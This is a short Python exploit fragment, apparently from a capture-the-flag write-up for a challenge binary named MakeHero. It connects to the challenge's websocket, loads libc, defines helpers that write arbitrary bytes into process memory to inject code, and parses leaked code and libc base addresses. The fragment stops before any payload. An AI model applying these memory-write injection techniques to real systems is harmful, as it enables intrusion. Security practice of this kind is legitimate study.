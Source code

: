 ```python

r = lambda x: p.recv(x)

ru = lambda x: p.recvuntil(x)

  

# p = process('./MakeHero')

p = websocket("wss://ctf.xidian.edu.cn/api/traffic/8ydliACcWZMe46gdyWeIh?port=9999")

libc = ELF("./libc.so.6")

  

def u8_ex(data) -> int:

assert isinstance(data, (str, bytes)), "wrong data type!"

length = len(data)

assert length <= 1, "len(data) > 1!"

if isinstance(data, str):

data = data.encode('latin-1')

data = data.ljust(1, b"\x00")

return unpack(data, 8)

  

def write_mem(addr, byte):

if isinstance(byte, bytes):

sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))

elif isinstance(byte, int):

sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

  

def write_code(addr, code):

for i in range(len(code)):

write_mem(addr + i, code[i])

  

ru(b'** ')

code_base = int(p.recvuntil(b' -', drop=True), 16)

  

ru(b'## ')

libc_base = int(p.recvuntil(b' -', drop=True), 16)

```